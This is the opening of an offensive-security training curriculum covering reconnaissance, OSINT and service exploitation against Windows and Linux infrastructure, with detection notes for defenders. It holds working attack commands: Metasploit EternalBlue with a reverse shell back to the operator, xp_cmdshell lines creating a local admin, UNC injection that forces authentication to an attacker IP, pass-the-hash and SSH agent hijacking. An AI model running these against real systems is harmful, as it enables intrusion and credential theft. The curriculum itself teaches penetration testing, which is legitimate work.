# PHASE 2: NETWORK & INFRASTRUCTURE

**Author:** Sagar Biswas<br/>
**Version:** v1.0.0 · 2027 Edition<br/>

<div align="right">

**From Your First Scan to Owning the Network**

</div>

**Duration:** 4-6 Months | **Difficulty:** Intermediate | **Hours/Week:** 30-35
**Prerequisites:** Phase 0 (Foundations) and Phase 1 (Web Security) | **Completion Rate:** ~20% of Phase 1 graduates

---

> **What this phase is:** Phase 1 taught you to attack web applications. Phase 2 is different. You are now attacking **infrastructure**: the machines, protocols, and networks that everything else runs on. By the end of this phase, you can enter a corporate network from outside, escalate to SYSTEM or root on both Windows and Linux, move laterally through an Active Directory domain, sit silently capturing credentials, and maintain persistent access through a C2 framework without triggering EDR. Most corporate networks have not patched the techniques here. This is not theory.

---

## TABLE OF CONTENTS

1. [What This Phase Builds](#1-what-this-phase-builds)
2. [Prerequisites Check](#2-prerequisites-check)
3. [Phase 2 Kill Chain](#3-phase-2-kill-chain)
4. [Lab Topology](#4-lab-topology)
5. [Timeline Overview](#5-timeline-overview)
6. [How to Use This Phase](#6-how-to-use-this-phase)
7. [Section 1: Reconnaissance and OSINT](#section-1-reconnaissance-and-osint)
8. [Section 2: Service Exploitation](#section-2-service-exploitation)
9. [Section 3: Privilege Escalation - Linux](#section-3-privilege-escalation-linux)
10. [Section 4: Privilege Escalation - Windows](#section-4-privilege-escalation-windows)
11. [Section 5: Credential Poisoning and Relay Attacks](#section-5-credential-poisoning-and-relay-attacks)
12. [Section 6: Post-Exploitation and Lateral Movement](#section-6-post-exploitation-and-lateral-movement)
13. [Section 6.6: Active Directory - Enumeration and Attacks](#section-66-active-directory-enumeration-and-attacks)
14. [Section 7: Network Pivoting and Tunneling](#section-7-network-pivoting-and-tunneling)
15. [Section 8: Wireless Attacks](#section-8-wireless-attacks)
16. [Section 9: Password Attacks Methodology](#section-9-password-attacks-methodology)
17. [Section 10: AV/EDR Evasion and Payload Delivery](#section-10-av-edr-evasion-and-payload-delivery)
18. [Section 11: C2 Framework Operations](#section-11-c2-framework-operations)
19. [Section 12: OPSEC Within Phase 2](#section-12-opsec-within-phase-2)
20. [Milestone Projects](#milestone-projects)
21. [Phase 2 Completion Checklist](#phase-2-completion-checklist)
22. [CTF Labs and Practice Targets](#ctf-labs-and-practice-targets)
23. [Phase 2 to Phase 3 Bridge](#phase-2-to-phase-3-bridge)

---

## 1. WHAT THIS PHASE BUILDS

By the end of Phase 2, you will be able to:

- **Enter a network** from outside using exposed services and misconfigured protocols
- **Elevate your access** from a standard user to root or SYSTEM on both Linux and Windows
- **Enumerate an Active Directory domain** manually and with tools, identify attack paths
- **Move laterally** through a network using stolen credentials without needing new exploits
- **Sit silently** on a network and collect credentials from machines you have not touched
- **Maintain access** through a C2 framework that survives reboots and EDR products
- **Bypass AV and EDR** products using in-memory techniques and evasion tradecraft
- **Tunnel through firewalls** to reach internal systems from a beachhead machine
- **Compromise wireless networks** including WPA3 transition-mode environments
- **Exploit Active Directory** vulnerabilities including ADCS, ACL abuse, and delegation attacks
- **Understand what defenders see** for every major technique you use

---

## 2. PREREQUISITES CHECK

Before starting Phase 2, verify you have these skills. Be honest. A crack in Phase 0 becomes a wall in Phase 2.

```
Phase 0 Prerequisites:
  Linux comfortable: filesystem, permissions, bash scripting (can write a useful script)
  Python: can write scripts from scratch, read others code, use libraries
  Networking: TCP/IP, OSI model, DNS/HTTP/ARP: understand what happens at each layer
  VMs: can set up Kali Linux, Windows Server, Ubuntu, build an internal-only network

Phase 1 Prerequisites:
  Burp Suite: can intercept and modify HTTP requests confidently
  SQLi: manual exploitation (not just sqlmap: you understand WHY it works)
  XSS: stored, reflected, DOM: all three, with real examples
  OWASP Top 10: can explain each class and give a real-world example
  Completed 5+ HTB/TryHackMe web-focused rooms and wrote up each one
```

> If any box is unchecked, fix it before proceeding. Phase 2 assumes these completely.

---

## 3. PHASE 2 KILL CHAIN

Every operation in Phase 2 follows this chain. Each section of this phase maps to one node.

<div align="center">
<table><tr><td>



</td></tr></table>
</div>

---

## 4. LAB TOPOLOGY

Build this minimum lab before starting. Every section assumes it.

<div align="center">
<table><tr><td>



</td></tr></table>
</div>

**Lab setup instructions:**

```bash
# VirtualBox: Create an internal network named "lab_internal"
# Set DC, W10, Ubuntu adapters to: Host-only + Internal Network "lab_internal"
# Set Kali adapters to: NAT (internet) + Host-only (reach lab)

# On DC: Install Active Directory
# PowerShell (run as Administrator on Windows Server 2022):
Install-WindowsFeature AD-Domain-Services -IncludeManagementTools
Install-ADDSForest -DomainName "lab.local" -DomainNetbiosName "LAB" -InstallDns -Force

# Join W10 to domain (on Windows 10):
# System Properties -> Computer Name -> Change -> Domain: lab.local
# Reboot after joining

# Create test users for practice:
New-ADUser -Name "Alice Smith" -SamAccountName "asmith" -AccountPassword (ConvertTo-SecureString "Summer2024!" -AsPlainText -Force) -Enabled $true
New-ADUser -Name "Bob Jones" -SamAccountName "bjones" -AccountPassword (ConvertTo-SecureString "Password123" -AsPlainText -Force) -Enabled $true
New-ADUser -Name "SVC SQL" -SamAccountName "svc_sql" -AccountPassword (ConvertTo-SecureString "Sqlpassword1" -AsPlainText -Force) -Enabled $true
Set-ADUser -Identity "svc_sql" -ServicePrincipalNames @{Add="MSSQLSvc/server.lab.local:1433"}
# svc_sql with an SPN = Kerberoastable: practice target
```

---

## 5. TIMELINE OVERVIEW

| Week | Focus | Target Outcome |
|------|-------|----------------|
| 1-2 | Reconnaissance and OSINT | Complete passive recon profile on a lab domain |
| 3-5 | Service Exploitation | Root/SYSTEM on 15 HTB Easy machines, all documented |
| 6-8 | Linux Privilege Escalation | Root via 5+ different methods, each documented |
| 9-11 | Windows Privilege Escalation | SYSTEM via 5+ different methods, each documented |
| 12-14 | Credential Poisoning and Relay | NTLMv2 captured passively, relayed to RCE |
| 15-18 | Post-Exploitation, Lateral Movement, AD Enumeration | 3-machine lateral chain and BloodHound path to DA |
| 19-20 | AV/EDR Evasion | Working AMSI bypass, in-memory tool execution |
| 21-22 | C2 Framework | Sliver: listener, implant, persistent access |
| 23-24 | Pivoting and Tunneling | Reach a network segment behind a pivot with Ligolo-ng |
| 25-26 | Wireless Attacks | WPA2 handshake captured and cracked; WPA3 tested |
| 27-28 | ADCS and Advanced AD Attacks | ESC1 cert template abused, ACL chain mapped |

> Weeks overlap. Recon never stops. Adjust to your pace: 4 months is aggressive. 6 months is healthy.

---

## 6. HOW TO USE THIS PHASE

Every section follows this structure:

1. **What this is and why it works:** concept first. Read this. Understand it. Do not skip to commands.
2. **Curriculum table:** what to study, in order, with time estimates and cost
3. **Code blocks:** exact commands, explained inline with `#` comments
4. **Lab exercise:** specific deliverable to build or break in your own environment
5. **Detection artifacts:** what defenders see when you use this technique
6. **OPSEC note:** what traces you leave on the target and how to manage them

**Rule:** If you do not understand why a command works, you are not ready to use it. Look it up. The operator who understands is the operator who adapts when the tool fails.

---

---

## SECTION 1: RECONNAISSANCE AND OSINT

### What This Is and Why It Matters

Reconnaissance is information gathering before you touch the target. The goal is to understand the attack surface from outside: what machines exist, what services they run, what employees work there, what technology they use. The more you know before your first scan, the more targeted and quiet you can be.

**Two types:**
- **Passive recon:** you collect information without sending a single packet to the target. Zero footprint on their systems.
- **Active recon:** you interact with the target directly (scanning, probing). Leaves logs.

Always exhaust passive recon before going active. In a real engagement, passive recon has ended operations before they started: a target with robust monitoring sees your scan and blocks your IP before you fire your first payload.

### Recon Flow

<div align="center">
<table><tr><td>



</td></tr></table>
</div>

---

### Curriculum

| Resource | Type | Duration | Cost | Notes |
|----------|------|----------|------|-------|
| [Practical Ethical Hacking - TCM Security](https://academy.tcm-sec.com/p/practical-ethical-hacking-the-complete-course) | Course | 25 hours | $30 | Best structured intro. Recon section is thorough. |
| [Nmap Official Book](https://nmap.org/book/) | Reference | 5 hours | FREE | Read Chapters 1-6 minimum. NSE scripting is underused by beginners. |
| [Shodan](https://www.shodan.io/) | Tool | 2 hours | FREE/Paid | Learn query syntax. Free tier sufficient to start. |
| [OSINT Framework](https://osintframework.com/) | Reference | 1 hour | FREE | Index of every OSINT tool, categorised by data type. |
| [theHarvester GitHub](https://github.com/laramies/theHarvester) | Tool | 2 hours | FREE | Email, subdomain, employee name harvesting from public sources. |
| [Amass](https://github.com/owasp-amass/amass) | Tool | 2 hours | FREE | Deep subdomain enumeration. More thorough than subfinder alone. |

---

### 1.1 Passive Recon - Zero Footprint

#### Google Dorking

```bash
# Find subdomains
site:target.com -www

# Find exposed admin panels
site:target.com inurl:admin OR inurl:login OR inurl:panel

# Find config files and backups (databases, credentials)
site:target.com ext:xml OR ext:conf OR ext:bak OR ext:sql OR ext:env

# Find exposed credentials in text files
site:target.com ext:txt "password" OR "passwd" OR "credentials"

# Find SQLi error pages
intext:"sql syntax near" site:target.com
intext:"Warning: mysql_fetch" site:target.com

# Find directory listings (often expose source code and backups)
intitle:"index of" site:target.com

# Find exposed environment files (API keys, database passwords)
site:target.com filetype:env OR inurl:.env

# Find exposed Git repositories (full source code)
intitle:"index of" inurl:".git" site:target.com

# Find login portals
intitle:"login" OR intitle:"sign in" site:target.com

# Extended Google Dork reference: https://www.exploit-db.com/google-hacking-database
```

---

#### theHarvester - Email, Subdomain, Employee Harvesting

```bash
# Install (pre-installed in Kali, or):
pip3 install theHarvester

# Basic run against a domain: query multiple sources
theHarvester -d target.com -b google,linkedin,bing,certspotter,crtsh -l 500
# -d: target domain
# -b: data sources to query (use 'all' to try everything)
# -l: result limit per source

# Save results:
theHarvester -d target.com -b all -l 500 -f target_harvest
# Creates target_harvest.html and target_harvest.xml

# Key outputs to note:
# Emails found: john.smith@target.com, hr@target.com
#   These are your password spraying user list
# Hosts found: mail.target.com, vpn.target.com, dev.target.com
#   Subdomains that may not be in DNS records
# IPs found: 203.0.113.10, 203.0.113.15
#   Shodan these immediately
```

> **Why this matters:** The email format harvested (firstname.lastname@ vs f.lastname@ vs firstnamelastname@) tells you the naming convention for the entire organisation. This is your spraying user list and phishing sender format.

---

#### Certificate Transparency

```bash
# Every SSL certificate issued for a domain is logged publicly.
# This reveals every subdomain, including internal ones with accidental public certs.

# Method 1: crt.sh web interface
# https://crt.sh/?q=%25.target.com

# Method 2: curl the API and parse
curl -s "https://crt.sh/?q=%25.target.com&output=json" | \
  python3 -c "import sys,json; [print(e['name_value']) for e in json.load(sys.stdin)]" | \
  sort -u | grep -v "*"

# Method 3: subfinder (multi-source, fast)
# https://github.com/projectdiscovery/subfinder
subfinder -d target.com -silent -o subdomains.txt

# Method 4: amass (most comprehensive)
amass enum -passive -d target.com -o amass_out.txt

# Method 5: httpx - probe which subdomains are live
cat subdomains.txt | httpx -silent -status-code -title -o live_subdomains.txt
# httpx: https://github.com/projectdiscovery/httpx
```

---

#### DNS Enumeration

```bash
# Basic DNS lookup
nslookup target.com
dig target.com ANY           # All record types

# Find mail servers
dig target.com MX

# Find SPF/DMARC records (useful for email attack planning)
dig target.com TXT

# Zone transfer attempt (misconfigured DNS servers hand over their entire zone)
dig axfr @ns1.target.com target.com
# Most modern DNS servers refuse. When one accepts, you get every hostname.
# Try every nameserver: dig target.com NS first, then try each.

# Brute-force subdomains with dnsrecon
dnsrecon -d target.com -t brt -D /usr/share/wordlists/dnsmap.txt

# Fast DNS resolution of discovered subdomains
cat subdomains.txt | dnsx -silent -a -resp-only
# dnsx: https://github.com/projectdiscovery/dnsx
```

---

#### Shodan - Internet-Wide Port Scanner

```bash
# Install CLI: pip3 install shodan
# Get API key from shodan.io (free account)
shodan init YOUR_API_KEY

# Find all services on a domain
shodan search "hostname:target.com"
shodan search "hostname:target.com" --fields ip_str,port,org,hostnames

# Find all IPs associated with a company
shodan search "org:\"Target Company Name\""

# Find specific vulnerable software versions
shodan search "product:nginx version:1.14"
shodan search "product:Apache httpd version:2.4.49"    # CVE-2021-41773

# Find exposed RDP
shodan search "port:3389 country:US os:Windows"

# Full host summary for a specific IP
shodan host 203.0.113.15
# Shows: open ports, banners, location, org, hostnames, CVEs Shodan detected
```

---

#### GitHub and Code Repository OSINT

```bash
# Manual searches on GitHub.com:
# github.com/search?q=target.com+password&type=code
# github.com/search?q=target.com+api_key&type=code
# github.com/search?q=target.com+SECRET&type=code
# github.com/search?q=target.com+BEGIN+RSA+PRIVATE&type=code   (SSH private keys)

# Automated: truffleHog (scans git history for secrets)
# https://github.com/trufflesecurity/trufflehog
trufflehog github --org=target-org --only-verified
# --only-verified: only report secrets that are confirmed active

# gitleaks (pattern-based scanning)
# https://github.com/gitleaks/gitleaks
git clone https://github.com/target-org/some-repo.git
gitleaks detect --source=./some-repo --verbose

# Grep for high-value patterns manually:
# "password", "passwd", "secret", "api_key", "private_key", "internal"
```

> **Real-world example (2024):** A major breach traced back to API credentials in a configuration file deleted in 2021. The Wayback Machine had a snapshot, and the credentials remained valid on the live API.

---

#### Wayback Machine - Historical Attack Surface

```bash
# Install waybackurls:
go install github.com/tomnomnom/waybackurls@latest

# Get all URLs ever crawled for a domain:
waybackurls target.com | tee wayback_urls.txt

# Filter for high-value targets:
cat wayback_urls.txt | grep -E "\.(env|config|bak|sql|json|xml|yaml|yml)$"
cat wayback_urls.txt | grep -iE "password|passwd|credential|secret|api.key|token"
cat wayback_urls.txt | grep -iE "admin|login|panel|dashboard|portal"

# gau (Get All URLs): also queries otx.alienvault.com and common crawl
go install github.com/lc/gau/v2/cmd/gau@latest
gau target.com | tee gau_urls.txt

# katana (2024 best-in-class crawler): https://github.com/projectdiscovery/katana
katana -u https://target.com -d 5 -jc -o katana_out.txt
# -d: crawl depth    -jc: parse JavaScript for endpoints
```

---

### 1.2 Active Recon - Nmap Mastery

```bash
# STEP 1: Fast TCP scan to find open ports quickly
# -sS: SYN scan (stealthy, fast, requires root)
# -p-: all 65535 TCP ports
# --min-rate 5000: 5000 packets/second
sudo nmap -sS -p- --min-rate 5000 -T4 -oN tcp_all.txt TARGET_IP

# STEP 2: Service version detection on open ports only
PORTS=$(grep "^[0-9]" tcp_all.txt | cut -d'/' -f1 | tr '\n' ',')
sudo nmap -sV -sC -p$PORTS -oN service_scan.txt TARGET_IP
# -sV: service version detection
# -sC: run default NSE scripts

# STEP 3: UDP scan (often skipped, often rewarding)
sudo nmap -sU --top-ports 1000 -T4 -oN udp_scan.txt TARGET_IP
# Important UDP ports: 53 (DNS), 161 (SNMP), 1434 (MSSQL), 500 (IKE/VPN)

# STEP 4: OS detection
sudo nmap -O TARGET_IP

# STEP 5: Targeted NSE scripts
nmap --script vuln -p 445 TARGET_IP
nmap --script smb-* -p 445 TARGET_IP
nmap --script http-* -p 80,443,8080 TARGET_IP

# STEP 6: SNMP enumeration (if port 161 UDP is open - often exposes usernames)
onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt TARGET_IP
snmpwalk -v2c -c public TARGET_IP
# Common community strings: public, private, community, manager

# Firewall evasion techniques:
nmap -f TARGET_IP                         # Fragment packets
nmap -D RND:10 TARGET_IP                  # Decoy: hide IP among 10 random IPs
nmap --source-port 53 TARGET_IP           # Use port 53 as source
nmap -T1 TARGET_IP                        # Paranoid: 5 minutes between probes

# For large subnets: masscan first (much faster for discovery)
sudo masscan 192.168.1.0/24 -p 22,80,443,445,3389,8080 --rate=1000 -oL masscan_out.txt
# Then run nmap for service detection on discovered IPs only
```

**Detection artifacts:**
- SYN scans: half-open connections visible in firewall logs
- `--min-rate 5000`: massive traffic spike flagged by NDR tools (Darktrace, Vectra)
- NSE vuln scripts: send exploitation attempts - not safe for detection

**OPSEC note:** In real operations, use Shodan data instead of scanning when possible. When you do scan, use `--scan-delay` to spread packets. Never scan from your own IP.

---

### 1.3 Lab Exercise - Complete OSINT Profile

```
Deliverable: OSINT_REPORT.md containing:
  All subdomains found via crt.sh + subfinder + theHarvester
  All DNS records (A, MX, NS, TXT, CNAME, SRV)
  Any GitHub mentions of the domain (truffleHog)
  Shodan results for all associated IPs
  Google dork results (at least 8 working dorks)
  Wayback Machine: 5 interesting historical URLs with notes
  theHarvester: email address format identified, user list built
  Attack surface summary: which findings are highest priority and why
```

---

---

## SECTION 2: SERVICE EXPLOITATION

### What This Is and Why It Matters

After recon you know what ports are open and what services are running. Service exploitation means gaining initial access by attacking those services. This is rarely "run an exploit and get a shell." More often it is:

- Default or weak credentials (most common path into real organisations)
- Misconfigured access (anonymous login, no authentication required)
- Outdated software with known CVEs
- Protocol abuse (using a service as intended, but for malicious purpose)

### The Impacket Suite

Before diving into techniques, understand what you are working with. Impacket is a Python library implementing dozens of Windows network protocols (SMB, MSRPC, NTLM, Kerberos, LDAP, MSSQL).

```bash
# Install (pre-installed in Kali, or):
pip3 install impacket

# The tools you will use in Phase 2:
# impacket-secretsdump   -> dump password hashes from SAM, LSA, NTDS.dit
# impacket-psexec        -> SYSTEM shell via SMB (creates a service: noisy)
# impacket-wmiexec       -> semi-interactive shell via WMI (quieter)
# impacket-smbexec       -> SMB shell without writing to disk
# impacket-mssqlclient   -> MSSQL interactive client
# impacket-GetUserSPNs   -> Kerberoasting
# impacket-GetNPUsers    -> AS-REP Roasting
# impacket-lookupsid     -> enumerate domain SIDs
# impacket-rpcdump       -> enumerate RPC endpoints

# Universal credential format:
# domain/user:password@TARGET_IP
# domain/user@TARGET_IP -hashes LM_HASH:NT_HASH

# Examples:
impacket-psexec lab.local/administrator:Password123!@192.168.1.10
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:NTLM_HASH_HERE administrator@192.168.1.10
# The LM hash is almost always aad3b435b51404ee (blank LM hash on modern systems)
```

---

### Curriculum

| Resource | Type | Duration | Cost | Notes |
|----------|------|----------|------|-------|
| [HackTheBox Starting Point](https://www.hackthebox.com/home/start) | Labs | 10 hours | FREE | Guided machines. Best for methodology. Start here. |
| [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/) | Course | 10 hours | FREE | Offensive Security's own course. Complete. |
| [TryHackMe - Network Security Path](https://tryhackme.com/path/outline/networksecurity) | Labs | 20 hours | $14/mo | Guided, beginner-paced. |
| [HackTricks](https://book.hacktricks.xyz/) | Reference | Ongoing | FREE | The definitive pentesting reference. Bookmark immediately. |

---

### 2.1 SMB (Port 445)

SMB is the Windows file sharing protocol and the most-exploited protocol in enterprise environments. If you see port 445 open, start here.

```bash
# Enumerate SMB: version, signing policy, shares
nmap --script smb-security-mode,smb2-security-mode,smb-enum-shares -p 445 TARGET_IP

# Null session: connect without credentials
smbclient -N -L //TARGET_IP
# -N: no password    -L: list shares

# Connect to a specific share:
smbclient -N //TARGET_IP/ShareName

# Automated enumeration with NetExec (nxc): the maintained CrackMapExec replacement
# CrackMapExec upstream is dead. Use NetExec in 2026-2027.
# Install: pip3 install netexec
nxc smb TARGET_IP                         # Basic info (hostname, OS, domain, signing)
nxc smb TARGET_IP -u '' -p ''            # Null session test
nxc smb TARGET_IP -u 'guest' -p ''       # Guest session test
nxc smb TARGET_IP --shares               # List shares (no auth)
nxc smb 192.168.1.0/24                   # Scan an entire subnet

# EternalBlue (MS17-010): still alive on unpatched legacy systems
nmap --script smb-vuln-ms17-010 -p 445 TARGET_IP

# Exploit with Metasploit:
msfconsole -q
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS TARGET_IP
set LHOST YOUR_IP
set PAYLOAD windows/x64/meterpreter/reverse_tcp
run

# PrintNightmare (CVE-2021-1675 / CVE-2021-34527)
nxc smb TARGET_IP -u user -p pass -M printnightmare

# Pass-the-Hash (covered in Section 5, preview):
nxc smb TARGET_IP -u administrator -H NTLM_HASH
impacket-psexec -hashes :NTLM_HASH administrator@TARGET_IP
```

**Detection artifacts:**
- Null/guest sessions: Event ID 4624 (Logon Type 3) with blank username
- EternalBlue: SMB negotiation anomalies visible in network capture
- psexec: creates service `PSEXESVC` -> Event ID 7045 (Service Installed)
- Pass-the-Hash: Event ID 4624 (Type 3) with no preceding password entry

**OPSEC note:** psexec is the noisiest lateral movement tool. Prefer wmiexec (no service creation) or smbexec in real operations.

---

### 2.2 SSH (Port 22)

```bash
# Identify SSH version (check CVEDetails for known vulnerabilities)
ssh -v TARGET_IP 2>&1 | head -5

# SSH algorithm weakness audit
# https://github.com/jtesta/ssh-audit
python3 ssh-audit.py TARGET_IP
# Flags weak algorithms: MD5, SHA1, diffie-hellman-group1-sha1

# Default credential check with nxc:
nxc ssh TARGET_IP -u users.txt -p passwords.txt

# SSH key theft and reuse
find / -name "id_rsa" -o -name "id_ecdsa" -o -name "id_ed25519" 2>/dev/null
cat ~/.ssh/authorized_keys    # Who can log in as this user
cat ~/.ssh/known_hosts        # What servers this user has connected to previously

# SSH agent forwarding abuse:
# If a user has SSH agent forwarding enabled and connects through your compromised host,
# their agent socket is accessible to you.
ls /tmp/ssh-*/
SSH_AUTH_SOCK=/tmp/ssh-XXXXX/agent.XXXXX ssh-add -l         # List their forwarded keys
SSH_AUTH_SOCK=/tmp/ssh-XXXXX/agent.XXXXX ssh user@internal   # Connect using their key
```

---

### 2.3 WinRM (Ports 5985, 5986)

WinRM is Windows Remote Management: PowerShell remoting over HTTP (5985) or HTTPS (5986).

```bash
# Check if WinRM is enabled:
nxc winrm TARGET_IP -u user -p password
# Pwned! = you have remote command execution

# evil-winrm: the standard WinRM exploitation tool
evil-winrm -i TARGET_IP -u administrator -p 'Password123!'

# Pass-the-Hash with evil-winrm:
evil-winrm -i TARGET_IP -u administrator -H NTLM_HASH

# With Kerberos ticket:
evil-winrm -i TARGET_IP -u administrator -k -r domain.local

# File transfer through evil-winrm session:
upload /local/path/file.exe C:\Windows\Temp\file.exe
download C:\Users\Administrator\Desktop\flag.txt /local/path/
```

---

### 2.4 MSSQL (Port 1433)

```bash
# Default credentials: sa:(blank), sa:sa, sa:password
nmap --script ms-sql-info,ms-sql-empty-password -p 1433 TARGET_IP

# Interactive client with impacket:
impacket-mssqlclient domain/user:pass@TARGET_IP

# Inside MSSQL session:
SQL> SELECT @@version;
SQL> SELECT name FROM sys.databases;
SQL> SELECT name FROM sys.tables;

# Enable and use xp_cmdshell (OS command execution):
SQL> EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
SQL> EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
SQL> EXEC xp_cmdshell 'whoami';
SQL> EXEC xp_cmdshell 'net user hacker Password123! /add';
SQL> EXEC xp_cmdshell 'net localgroup administrators hacker /add';

# UNC path injection: force MSSQL to authenticate to you -> capture NTLMv2 hash
# Start Responder on your attacker machine first, then:
SQL> EXEC xp_dirtree '\\YOUR_ATTACKER_IP\share';
# MSSQL server connects back -> Responder captures NetNTLMv2 hash

# Linked server abuse: pivot to other SQL servers this one trusts
SQL> SELECT * FROM sys.servers;
SQL> EXEC ('SELECT @@version') AT [linked_server_name];
SQL> EXEC ('EXEC xp_cmdshell ''whoami''') AT [linked_server_name];
```

---

### 2.5 RDP (Port 3389)

```bash
# Check credentials:
nxc rdp TARGET_IP -u user -p password

# Connect:
xfreerdp /v:TARGET_IP /u:administrator /p:'Password123!'
xfreerdp /v:TARGET_IP /u:administrator /p:'Password123!' /cert-ignore /dynamic-resolution

# Pass-the-Hash for RDP (requires Restricted Admin mode on target):
xfreerdp /v:TARGET_IP /u:administrator /pth:NTLM_HASH /cert-ignore

# Enable Restricted Admin mode (if you have code execution):
reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 0
```

---

### 2.6 Other Services

```bash
# FTP (Port 21)
nmap --script ftp-anon,ftp-bounce,ftp-brute -p 21 TARGET_IP
ftp TARGET_IP                # Try anonymous login: username: anonymous, pass: (blank)

# Telnet (Port 23)
nmap --script telnet-brute -p 23 TARGET_IP

# SMTP (Port 25)
nmap --script smtp-enum-users,smtp-vuln-cve2010-4344 -p 25 TARGET_IP

# NFS (Port 2049)
showmount -e TARGET_IP         # List NFS exports
sudo mount -t nfs TARGET_IP:/share /tmp/mount/

# Redis (Port 6379) - often no auth in default configs
redis-cli -h TARGET_IP ping
redis-cli -h TARGET_IP config get dir    # Find web root for webshell upload

# MongoDB (Port 27017) - often no auth
mongo --host TARGET_IP --port 27017
> show dbs
> use admin
> db.system.users.find()

# Elasticsearch (Port 9200) - often exposes all data with no auth
curl http://TARGET_IP:9200/_cat/indices
curl http://TARGET_IP:9200/INDEX_NAME/_search?size=100
```

---

### 2.7 Lab Exercise

Root or SYSTEM on 15 HackTheBox Easy machines. Document each:

```
Target: [Machine Name]
OS: [Windows/Linux]
Open Ports: [from nmap output]
Vulnerability Found: [exactly what was wrong]
Exploitation Method: [exact commands used]
Evidence: [whoami output + hostname]
Artifacts Generated: [what logs this created]
Lesson: [one thing this machine taught you]
```

---

---

## SECTION 3: PRIVILEGE ESCALATION - LINUX

### What This Is and Why It Matters

You have a shell. You are running as a low-privilege user. Your goal is `root`. Privilege escalation exploits misconfigurations, vulnerable software, or weak permissions.

> **Mindset:** Almost every Linux machine has a PrivEsc path. Your job is methodical enumeration, not guessing. Run through the categories below in order. Save kernel exploits for last: they can crash the system.

### Linux PrivEsc Decision Tree

<div align="center">
<table><tr><td>

